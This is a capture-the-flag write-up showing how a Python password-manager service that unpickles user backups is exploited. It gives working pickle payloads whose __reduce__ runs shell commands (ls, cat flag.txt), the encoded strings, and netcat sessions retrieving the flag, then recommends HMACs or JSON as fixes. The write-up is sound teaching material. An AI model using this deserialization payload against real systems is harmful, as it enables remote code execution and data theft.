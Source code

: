 # Exploiting spam (pwn 100)

## Recon

Reading the source code, we discover that it uses `pickle` to serialize
and de-serialize the backups. Much like the Rails YAML exploit (CVE-2013-0156),
`pickle` allows serialized objects to execute code on de-serialization.

## Payload Design

From reading the source code, `spam.py` stores the passwords as a dict of
string site names to string passwords. From [Nelson Elhage's blog post about
pickle vulnerabilities][1], we can learn that de-pickling (`pickle.loads`)
calls the `__reduce__` method on an object.

[1]: https://blog.nelhage.com/2011/03/exploiting-pickle/

Let's make an object that calls `ls` on the current directory. While the posts
I read about pickle exploits used `os.system` or `subprocess.Popen`, we can use
`subprocess.check_output` to return a string read from `stdin` instead of an
exit status.

```python
class LsPwd(object):
    def __reduce__(self):
        return (subprocess.check_output, (('/bin/ls',),))
```

Once we've made this object, we need to pickle it and pack it for the service,
which unpacks it as such:

```python
def spam_restore():
    s.sendall("Paste your backup here: ")
    backup = rl()
    global entries
    entries = pickle.loads(zlib.decompress(backup.decode("base64")))
    s.sendall("Successfully restored %d entries\n" % len(entries))
```

We need to make our `LsPwd`'s reduced form the value in a dict, pickle it,
compress it, and then base64 it:

```python
h = {}
h['asdf'] = LsPwd()

print zlib.compress(pickle.dumps(h)).encode('base64').replace("\n",'')
```

This gives us the base64 string:
```
eJwNyjsOgCAQBcD+XQQq8X8QOYCRBaPRyIsL99diurGRLbzZNO4G7CBaA98sSRVyJLnWXAtrAXtY640L5+Nu/e+AwvE3YeEMbT5wHhar
```

Which, when restored against the remote service:
```
> nc challs.campctf.ccc.ac 10113
Welcome to Super Password Authentication Manager (SPAM)!
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
5
Paste your backup here: eJwNyjsOgCAQBcD+XQQq8X8QOYCRBaPRyIsL99diurGRLbzZNO4G7CBaA98sSRVyJLnWXAtrAXtY640L5+Nu/e+AwvE3YeEMbT5wHhar
Successfully restored 1 entries
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
asdf: flag.txt
run.sh
spam.py

---
```

Cool! We have three entries in the current directory, one named `flag.txt`.
Let's make a new payload that reads it using `cat`:

```python
class ReadPassword(object):
    def __reduce__(self):
        return (subprocess.check_output, (('/bin/cat', 'flag.txt',),))

h = {}
h['asdf'] = ReadPassword()

print zlib.compress(pickle.dumps(h)).encode('base64').replace("\n",'')
```

Using the string this outputs:

```
> nc challs.campctf.ccc.ac 10113
Welcome to Super Password Authentication Manager (SPAM)!
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
5
Paste your backup here: eJwVi8sNgDAMxe5vkfbE/7MHDIBKaAGBICKpxPiUgw+WbLtwgdE4WYIBlyCJMz83eRHQ5umY7qgcFVzB2tHk837l5DTFdfrC6dZM318bKLeJDgP3kOwDDhQbiA==
Successfully restored 1 entries
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
asdf: CAMP15_76b5fad40644ac0616b301454250c408
```

And there's our flag!

## Fixing Spam

Don't use pickle to decode strings from untrusted sources. From the docs:

> Warning: The pickle module is not intended to be secure against erroneous or
> maliciously constructed data. Never unpickle data received from an untrusted
> or unauthenticated source.

Some of the alternatives are:

* Attach an HMAC to backups, and verify it on restore. An HMAC will prove that
the party that created the backup also has your HMAC key.
* Use JSON. Every JSON module that you should use prevents code execution.
(Side note: don't parse JSON with `eval` in JavaScript!)
